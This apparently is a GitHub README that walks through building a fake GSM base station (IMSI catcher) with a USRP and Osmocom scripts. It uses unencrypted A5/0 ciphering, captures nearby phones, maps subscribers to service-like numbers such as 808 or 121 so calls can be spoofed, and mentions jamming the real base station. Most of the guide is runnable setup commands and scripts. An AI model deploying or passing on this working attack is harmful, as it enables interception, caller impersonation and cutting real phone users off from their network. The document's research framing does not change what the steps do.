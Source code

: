 # GSM4_IMSICATCHER_HALFMITM_SPOOFING-CALL-WITH-PHYSICAL-MS
* [motorola](https://www.youtube.com/watch?v=ZKa86zAWmQY&pp=ygURZ3NtIHNuaWZmaW5nIDI5YzM%3D) documentation
* [spoofing](https://github.com/godfuzz3r/osmo-nitb-scripts/tree/master)
* [phddays](https://sudonull.com/post/97315-MiTM-Mobile-contest-how-they-broke-mobile-communications-at-PHDays-V-Positive-Technologies-blog)
# Half MITM = Fake BTS only
<p align="center">
  <img width="600" height="400" src="https://github.com/SitrakaResearchAndPOC/GSM_IMSICATCHER_HALFMITM_SPOOFING-SMS-WITH-PHYSICAL-MS/blob/main/2G.jpg">
</p>

# Why it is possible ?
* Fake base station with open ciphering named A5/0, and the  network could be GSM(sms, call), and GPRS, EDGE

# Attack limitations and advantages 
* local attack but could be targeting (to find local victim)
* victim couldn't be reached on the real network (indeed call and sms)
* could be detectable with rooted phone and application like imsi-catcher detector, snoopsnitch because of open network

# Devices  
* USRP
* Two motorolas phone (aka calypso phone on google)

# Pratices
* Install DragonOS 29 or 30 for USRP and debian 9 or 10 for motorola phone
* Create fake bts with open ciphering (A5/0)
* Add one users and modify core network for associating it with number like 8OO or 807 or 808 or 204 or 209 or 121 or 0333300121
* wait for call 


* Solution 1 using USRP
(more stable and no need synchronization of existing BTS so if we jam the existing BTS the half mitm still exists)
```
wget https://raw.githubusercontent.com/SitrakaResearchAndPOC/nitb-script-all/main/osmo-nitb-scripts.zip
```
```
unzip osmo-nitb-scripts.zip
```
```
cd osmo-nitb-scripts
```
Database is at : /var/lib/osmocom/hlr.sqlite3  
Installing all config  
```
bash install_services.sh
```
For avoiding lock database error 
```
fuse -k /var/lib/osmocom/hlr.sqlite3
```
Open HLR.db
```
gedit scripts/HLR.py 
```
Change 
```
self.db = sqlite3.connect(hlr_loc)
```
By
```
self.db = sqlite3.connect(hlr_loc, timeout=3000)
```
Running the transceiver
```
osmo-trx-uhd -C /etc/osmocom/osmo-trx-uhd.cfg
```
Running main_uhd_spoof associate with configs/openbsc_spoof.cfg  
ctrl+shift+T  
```
cd osmo-nitb-scripts
```
```
python3 main_uhd_spoof.py
```
ctrl+shift+T
```
cd osmo-nitb-scripts/scripts_spoof1
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
```
bash finding_imsi_extenstion.sh
```
You could find imsi and extension  
let's see for example imsi as 646040222463674 and extension as 126
```
bash set_imsi_extension.sh 646040222463674 808
```
Verify by if the association is correct
let's see for example imsi as 646040222463674 and extension as 808
```
bash finding_imsi_extenstion.sh
```
* solution 2 : Not stable for dragonOS, should install [karly](https://www.youtube.com/watch?v=_nGVeG_76W8&pp=ygUJa2FybHkgZ3Nt)  
For all [karly_installation](https://github.com/SitrakaResearchAndPOC/CalypsoBTS_Debian)  
Use scripts : finding_imsi_extenstion.sh and set_imsi_extension.sh for associating the imsi with extension 808  
Modify the path of database as hlr.sqlite3     
Pratices  (bonification):  
Installing docker on dragonOS where the OS is debian 9 or 10  
Installing all checkout like [karly_installation](https://github.com/SitrakaResearchAndPOC/CalypsoBTS_Debian)  
Use scripts : finding_imsi_extenstion.sh and set_imsi_extension.sh for associating the imsi with extension 808    
Modify the path of database as hlr.sqlite3     
Create a github to just install CALL_SPOOFING on docker with dragonOS 29 oir 30 with the two scripts and test it directly  


 



